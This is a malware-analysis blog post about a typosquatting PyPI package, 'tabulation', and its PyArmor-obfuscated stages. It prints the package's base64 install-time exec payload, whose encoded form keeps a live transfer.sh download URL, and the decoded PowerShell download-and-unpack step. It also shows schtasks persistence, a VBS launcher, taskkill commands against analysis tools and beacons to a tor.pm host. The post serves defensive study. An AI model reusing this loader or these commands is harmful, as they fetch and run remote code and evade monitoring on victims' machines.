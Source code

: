 ```yaml
---
title: "Dearmored"
date: 2023-07-12T14:05:32-05:00
draft: false
tags: ['python','malware','deobfuscation']
description: "Looking deeper into PyArmor obfuscated malware utilizing tools such as Process Monitor and Wireshark, and hooking third party libraries to gain access to web requests and encrypted data."
summary: "Looking deeper into PyArmor obfuscated malware utilizing tools such as Process Monitor and Wireshark, and hooking third party libraries to gain access to web requests and encrypted data."
---
```


Before I begin, a gentle shoutout to Lockness Ko, our dynamic analysis specialist, for his assistance with the dynamic analysis portion of this particular malicious package.

On the 26th of June, a Python package named **tabulation** came across our malware feed. It displayed all the signs of being a malicious package-- executing a base64 string within the setup.py portion of the package, and squatting a fairly well known package, **tabulate** by utilizing it's README and Github pages in the metadata. As we do with all packages that are suspected to be malicious, we began an analysis.

## The Payload

As mentioned, the payload contained a base64 encoded string that would execute upon the installation of the package. Nothing shockingly out of the ordinary or ground breaking here on the malware front, this is a common tactic, it's easy to detect, and this particular version was easy enough to reverse as well.

```python
exec(base64.b64decode("aW1wb3J0IHN1YnByb2Nlc3MsIG9zCmRlZiByKGMpOiA\
KICAgIHJlc3VsdCA9IHN1YnByb2Nlc3MuUG9wZW4oYywgc2hlbGw9VHJ1ZSwgc3Rka\
W49c3VicHJvY2Vzcy5QSVBFLCBzdGRvdXQ9c3VicHJvY2Vzcy5QSVBFLCBzdGRlcnI\
9c3VicHJvY2Vzcy5TVERPVVQsIGNsb3NlX2Zkcz1UcnVlKQogICAgb3V0cHV0ID0gc\
mVzdWx0LnN0ZG91dC5yZWFkKCkKZGVmIHIyKGMpOgogICAgc3VicHJvY2Vzcy5Qb3B\
lbihjLCBzaGVsbD1UcnVlLCBzdGRpbj1zdWJwcm9jZXNzLlBJUEUsIHN0ZG91dD1zd\
WJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJwcm9jZXNzLlNURE9VVCwgY2xvc2VfZmR\
zPVRydWUpCmlmIG9zLm5hbWUgPT0gIm50IjoKICAgIGlmIG5vdCBvcy5wYXRoLmV4a\
XN0cyhyIkM6L1Byb2dyYW1EYXRhL1VwZGF0ZXIiKToKICAgICAgICByKHIicG93ZXJ\
zaGVsbCAtY29tbWFuZCAkUHJvZ3Jlc3NQcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29ud\
GludWUnOyAkRXJyb3JBY3Rpb25QcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29udGludWU\
nOyBJbnZva2UtV2ViUmVxdWVzdCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgaHR0cHM6L\
y90cmFuc2Zlci5zaC9UVVVwUXJVdTlkL0luc3RhbGwuemlwIC1PdXRGaWxlICRlbnY\
6dG1wL2luc3QuemlwOyBFeHBhbmQtQXJjaGl2ZSAtRm9yY2UgLUxpdGVyYWxQYXRoI\
CRlbnY6dG1wL2luc3QuemlwIC1EZXN0aW5hdGlvblBhdGggQzovUHJvZ3JhbURhdGE\
7IFJlbW92ZS1JdGVtICRlbnY6dG1wL2luc3QuemlwIikKICAgICAgICBmcm9tIGRhd\
GV0aW1lIGltcG9ydCBkYXRldGltZSwgdGltZWRlbHRhOyB0ID0gKGRhdGV0aW1lLm5\
vdygpICsgdGltZWRlbHRhKG1pbnV0ZXM9MSkpLnN0cmZ0aW1lKCclSDolTScpCiAgI\
CAgICAgcjIoZidzY2h0YXNrcyAvQ3JlYXRlIC9TQyBPTkNFIC9TVCB7dH0gL1ROICJ\
VcGRhdGVyIiAvVFIgIkM6XFByb2dyYW1EYXRhXEluc3RhbGxcaW52aXMudmJzIicp"))
```

So let's unpack this a bit. As with most of these, you can simply swap the `exec` for a `print` and out will pop the 'obfuscated' payload.

```python
import subprocess, os
def r(c): 
    result = subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
    output = result.stdout.read()
def r2(c):
    subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
if os.name == "nt":
    if not os.path.exists(r"C:/ProgramData/Updater"):
        r(r"powershell -command $ProgressPreference = 'SilentlyContinue'; $ErrorActionPreference = 'SilentlyContinue'; Invoke-WebRequest -UseBasicParsing -Uri xxxx://transfer.sh/xxxx/Install.zip -OutFile $env:tmp/inst.zip; Expand-Archive -Force -LiteralPath $env:tmp/inst.zip -DestinationPath C:/ProgramData; Remove-Item $env:tmp/inst.zip")
        from datetime import datetime, timedelta; t = (datetime.now() + timedelta(minutes=1)).strftime('%H:%M')
        r2(f'schtasks /Create /SC ONCE /ST {t} /TN "Updater" /TR "C:\ProgramData\Install\invis.vbs"')
```

Now this is a little more exciting. As we can see, we use Powershell's `Invoke-WebRequest` to quietly curl down an **install.zip** file from transfer.sh and to unpack it into a known location. It then invokes the Windows Task Scheduler to execute **invis.vbs** a minute after the subprocess is executed. Presumably, this is to allow for the file to download and decompress. But what exactly do these files contain, and what is invis.vbs doing?

```vb
Set oShell = CreateObject ("Wscript.Shell") 
Dim strArgs
strArgs = "cmd /c pythonw C:\ProgramData\Install\inst.pyw"
oShell.Run strArgs, 0, false
```

This creates a WScript Shell, which invokes **inst.pyw**. We're now at Russian nesting dolls of staging. But bare with me, because this is where it gets interesting. As I said, the initial file dropped **installer.zip** was a ziparchive and decompressed during download. The file also contained the **pyarmor_runtime** and **inst.pyw** files. These, as you can likely glean by the name alone, are PyArmor obfuscated files. This presents a unique challenge, PyArmor unpackers are well documented running up to Python 3.10, but recent changes to the bytecode and opmaps in Python 3.11 have caused many of the ways these deobfuscators function to fail. And as anticipated, several off-the-shelf unpackers like Svenskithesource's [PyArmor-Unpacker](https://github.com/Svenskithesource/PyArmor-Unpacker) were ineffective at handling this new bytecode change.

## Dynamic Analysis

So with our static unpackers struggling to work through the PyArmor obfuscation, we shifted to dynamic analysis. I mentioned Lockness Ko earlier in the article; he was kind enough to lend a Dynamic Analysis sandbox for the next portion. We began as most dynamic analysis solutions do-- spinning up PCAP and packet sniffing software, turning on ProcMon and running the program. The first time we managed to get the program to run in the sandbox, Wireshark immediately died. A good indicator that we're dealing with something that's attempting to enumerate the virtual machine. We moved network monitoring out of the sandbox and tried again...
And not much happened. We killed the process and pulled up ProcMon to see if there was something we were missing, but we weren't catching a whole lot. So in the spirit of seeing if this was some sort of delayed execution, we went ahead and ran the file one more time and let it sit for what felt like an eternity. And we waited. And we waited. And at last, we had something. ProcMon started firing off system events for enumeration of the current environment:

```plaintext
"10:09:44.5260407 PM","WScript.exe","3396","Process Create","C:\Windows\System32\cmd.exe","SUCCESS","PID: 4292, Command line: ""C:\Windows\System32\cmd.exe"" /c pythonw C:\ProgramData\Install\inst.pyw"
"10:09:45.6561948 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 1188, Command line: pip install requests"
"10:09:52.1659818 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 2064, Command line: pip install cryptography"
"10:10:07.6860549 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\Wbem\wmic.exe","SUCCESS","PID: 1476, Command line: wmic process get name"
"10:10:08.4851339 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 1436, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im wireshark.exe"""
"10:10:08.4951144 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 4632, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im dumpcap.exe"""
"10:10:08.5035489 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 3844, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im processhacker.exe"""
"10:10:08.5120777 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe","SUCCESS","PID: 1052, Command line: powershell.exe get-process | format-table mainwindowtitle"
```

Now I'd like to draw some attention to several lines here.
`taskkill /f /im wireshark.exe` - The source of our dead Wireshark on the first run.
`pip install requests` and `pip install cryptography` will be very important very soon.
We can see the outbound beaconing in Wireshark, given that we've moved Wireshark outside of the virtual machine. We can see it calling to a **tor.pm** address in our PCAP's. Since we're not catching the events in process monitor, this must mean that ~~the call is coming from inside the house~~ the requests are being transmitted through Python. But what is this actually doing, what information is being communicated?

Well as previously mentioned, we saw **requests** and **cryptography** installed through subprocesses. So that gives us some good intuition about the kind of interface we might be dealing with for this information. Intuition dictated that hooking the **requests** POST API function might spill out the information we're looking for. So we did just that.

**requests/api.py**

```python
def post(url, data=None, json=None, **kwargs):
    with open("C:\Windows\Temp\post.txt", "a") as f:
        f.write(url, data, json, sep='\n')
    ...
```

Running this, as anticipated, caused any POSTs utilizing the Python Requests package to write themselves to a file. We went ahead and ran the script again and...

```plaintext
REQUEST
xxxx://xxxx.tor.pm/
{'1': 'gAAAAABkoRHTIO_HSkSBxDbFaarHWwX8T1qKIUgbuhaf0-294oY_TR1RuYFPVXYBkG5lQIKw2rRV7oPxL-CaKsiPerMKdwV5sUO1MEn3GZw3RToeSQXqvYo=', 
...}
```

And that's not shockingly helpful. However, we do have some excellent pretext for what this information might actually be! If you recall earlier, the **cryptography** package was installed during the execution of the malware. Fernet is a very common cryptography format used in Python, and more importantly, the `gAAAAAB`refers to a fairly fixed portion, the "fixed" timestamp. This allowed us to confirm that these were indeed Fernet encrypted payloads. For those unfamiliar with Fernet, it is a symmetric encryption algorithm utilizing a key. For our purposes, that is the brief of it. For those looking to read more, you can find a writeup on Fernet encryption in the [PYCA Cryptography documents](https://cryptography.io/en/latest/fernet/). Equipped with that information, we went ahead and enumerated the Cryptography package as well. Utilizing the same techniques we used in the requests modification, we hooked the `generate_key()` and `encrypt()` functions to also write their arguments to a file. So, for one final, time, we went ahead and ran the program, with all the appropriate functions hooked. And it worked perfectly!

```plaintext
========
model vbox harddisk  
==============
product  virtualbox  
==============
version  vbox- 1  
==============
name system idle process system  registrysmss.execsrss.exe  wininit.exeservices.exe  lsass.exe  svchost.exesvchost.exefontdrvhost.exe  svchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.execsrss.exe  winlogon.exe  fontdrvhost.exe  dwm.exe sihost.exe taskhostw.exe explorer.exe  shellexperiencehost.exeruntimebroker.exeruntimebroker.exeapplicationframehost.exe  svchost.exediscord.exediscord.exediscord.exediscord.exediscord.exediscord.exegooglecrashhandler.exe googlecrashhandler64.exe  procmon64.exe cmd.exe conhost.exepowershell.exechrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe cmd.exe conhost.exepythonw.exewmiprvse.exe  wmic.execonhost.exe
```

Quite underwhelmingly, this seems to enumerate running processes and user information and signal back to the server. There were no other signs of additional downloads or file drops.

## Summary

This is but one example of how we can effectively use some creative process hooking and know-how to cause cryptographic functions to spill their secrets when they're relying on external libraries and packages to do that transmission. Dynamic analysis can facilitate introspection into programs that might otherwise use heavy obfuscation, and Python's reputation as an interpreted language makes levying the base level libraries and infrastructure a breeze to enumerate obfuscated malware.
